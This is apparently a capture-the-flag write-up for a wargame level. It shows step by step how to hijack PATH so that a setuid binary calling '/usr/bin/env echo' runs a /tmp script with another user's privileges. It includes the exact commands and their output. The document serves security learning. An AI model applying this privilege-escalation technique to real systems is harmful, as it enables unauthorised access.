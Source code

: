 # Level03 : find flag03

## Tutorial

1. Launching the `level03` binary : it says `Exploit me`
2. Checking the binary `strings ~/level03 | grep Exploit`:
   - result : `/usr/bin/env echo Exploit me`
   - we can see here that it loads the `env` for the command, we can use it by modifying the `$PATH`
3. Checking the permissions for `level03` binary, `ls -l level03` :  
   - result : `-rwsr-sr-x 1 flag03 level03 8627 Mar  5  2016 level03`
   - we can see here the `setuid` and `setgid` are set ! This means that when we execute `level03`, we execute it with the `uid` of `flag03` and the `gid` of `level03`.
4. Checking available folders where we can write and execute scripts with `ls -l /` :
   - result : `d-wx-wx-wx  4 root root  100 Apr 10 08:09 tmp`
   - we can write and execute programs in the `/tmp` folder
5. Writing program in `/tmp/echo`, `cat /tmp/echo` :
   - result : `getflag`
   - permissions (`ls -l /tmp/echo`): `----r-x--- 1 level03 level03 8 Apr 10 08:10 /tmp/echo`
   - these are the minimum permissions for `/tmp/echo` because we are executing `~/level03` with the `gid` of `level03` so it needs to be able to `r` and `x`, then `getflag` is executed with the `uid` of `flag03`
6. Executing `PATH=/tmp:$PATH ~/level03` by passing `/tmp` as file containing binaries
7. get flag for level03 !

## Notes

- Create file `/tmp/echo`
  - content : `getflag`
- Execute `PATH=/tmp:$PATH echo lol`
  - result : `lol`
- Execute `PATH=/tmp:$PATH /usr/bin/env echo`
  - result : `Check flag.Here is your token : Nope there is no token here for you sorry. Try again :)`
- Summary : `/usr/bin/env` loads the environment variables of the user, this is necessary for the exploit.
- This is done because the `cat /etc/environment` set the `$PATH` variable for all users :
  - result : `PATH="/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:/usr/games"`
  - Source : `https://stackoverflow.com/questions/1641477/how-to-set-environment-variable-for-everyone-under-my-linux-system`
- Interesting discussion on the use of `/usr/bin/env` :
  - `https://unix.stackexchange.com/questions/29608/why-is-it-better-to-use-usr-bin-env-name-instead-of-path-to-name-as-my`

## Additional resources

- Permissions (suid, sgid, sticky bit)
  - https://www.tecmint.com/how-to-find-files-with-suid-and-sgid-permissions-in-linux/
  - https://linux.goffinet.org/administration/securite-locale/permissions-linux/
  - https://linuxconfig.org/how-to-use-special-permissions-the-setuid-setgid-and-sticky-bits
- Alias don't execute in scripts by default, need to set the shell as interactive :
  - possible other solution, doesn't work here (check link) : `alias echo=getflag`
  - https://stackoverflow.com/questions/30130954/alias-doesnt-work-inside-a-bash-script
